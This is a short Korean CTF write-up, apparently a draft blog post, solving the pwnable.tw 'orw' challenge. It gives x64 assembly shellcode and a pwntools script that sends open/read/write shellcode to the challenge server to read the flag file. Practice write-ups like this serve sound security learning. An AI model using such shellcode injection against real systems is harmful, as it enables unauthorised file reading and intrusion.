 ```yaml
---
title: pwnable.tw orw풀이
published: 2022-07-01
tags: [shellcode]
category: pwn
draft: true
---
```


# orw
![alt text](image.png)

문제에서 open, read, write 
syscall만 허용이 된다.

![
](image-1.png)

드림핵에서 풀었던 기초적인
쉘코드 문제랑 완전 비슷하다.

shellcraft 함수를 사용해서 풀어보겠다.

![alt text](image-3.png)

x86이다. 

![alt text](image-4.png)

x86 syscall table 문서 참고해서 인자 잘 넣어주면 된다.

```asm
    mov rax, 0x72672f666c616700
    push rax
    mov rax, 0x002f686f6d652f6f
    push rax
    mov rdi, rsp
    xor rsi, rsi
    xor rdx, rdx
    mov rax, 2
    syscall
    mov rdi, rax
    mov rsi, rsp
    sub rsi, 0x1000
    mov rdx, 0x1000
    mov rax, 0x0
    syscall

    mov rdi, 1
    mov rax, 0x1
    syscall

    xor rdi, rdi
    mov rax, 0x3c
    syscall    
```

전에 만들었던 x64 쉘코드인데
rax, eax 호환되는 것처럼 쉽게 생각하면 쉽게 풀 수 있다.

```python
from pwn import *
r = remote('chall.pwnable.tw', 10001)
context.arch = 'i386'

dir = "/home/orw/flag"

shellcode = shellcraft.open(dir)
shellcode += shellcraft.read('eax', 'esp', 0x30)
shellcode += shellcraft.write(1, 'esp', 0x30)

r.sendlineafter(b"Give my your shellcode:", asm(shellcode))
r.interactive()

```

